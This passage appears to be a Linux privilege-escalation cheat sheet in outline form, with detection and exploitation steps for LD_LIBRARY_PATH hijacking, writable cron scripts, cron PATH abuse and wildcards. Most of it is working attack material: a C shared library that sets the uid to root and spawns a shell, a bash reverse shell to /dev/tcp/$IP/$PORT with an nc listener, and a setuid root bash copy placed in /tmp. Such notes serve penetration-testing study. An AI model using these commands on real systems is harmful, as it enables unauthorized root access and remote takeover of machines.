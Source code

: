 				- Detection

					- $ sudo -l
					-  $ ldd /usr/sbin/apache2

				- Exploitation

					- #include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
					- $ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
					-  $ sudo LD_LIBRARY_PATH=. apache2

	- Cron Jobs

		- File Permissions

			- Detection

				- $ ./lse.sh -l 1 -i

			- Exploitation

				- Write to a program that is part of the cron job?

					- $ cat /etc/crontab
					- $ locate overwrite.sh
					- $ ls -l /usr/local/bin/overwrite.sh
					- #!/bin/bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
					- # nc –nvlp $PORT

		- PATH Environment Variable

			- Detection

				- $ ./lse.sh -l 1 -i

			- Exploitation

				- $ cat /etc/crontab
				- #!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
				- $ chmod +x /home/user/overwrite.sh
				- $ /tmp/rootbash –p

		- Wildcards

			- Detection

				- $ ./lse.sh -l 1 -i
				- gtfobins.github.io

			- Exploitation
